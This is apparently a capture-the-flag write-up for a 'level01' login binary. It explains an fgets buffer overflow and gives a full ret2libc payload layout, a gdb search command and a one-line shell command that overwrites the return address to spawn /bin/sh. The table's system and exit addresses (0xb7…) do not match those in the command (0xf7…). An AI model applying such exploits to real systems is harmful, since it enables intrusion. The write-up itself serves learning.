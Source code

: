 ## fgets overflow (level01)

This [binary](source.c) is supposed to be a login prompt. It takes a username
which is compared to "dat\_wil" to be verified and then it takes a password.
The password does not matter as it does not lead to anything either way, but the
`fgets` call is faulty. It reads up to 100 characters into a 76 bytes buffer.

We skip the 4 bytes of the ebp, and then we reach the return address of _main_.
All we have to do is a 
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/) exploit.

### Payload

| padding (80) | system (4) | exit (4)   | libc's "/bin/sh" string |
|--------------|------------|------------|-------------------------|
| 0x616161...  | 0xb7e6aed0 | 0xb7e5eb70 | 0xf7f897ec              |

> The libc contains a "/bin/sh" string to implement the `system` function, since
> it is a wrapper around an execl call with "/bin/sh" as parameter. To find it,
> the following gdb command was used: `find &system,+9999999,"/bin/sh"` which
> looks for the given string from the address of system to as far as it can.

```shell
(echo 'dat_wil'; python -c 'print "a" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level01
```
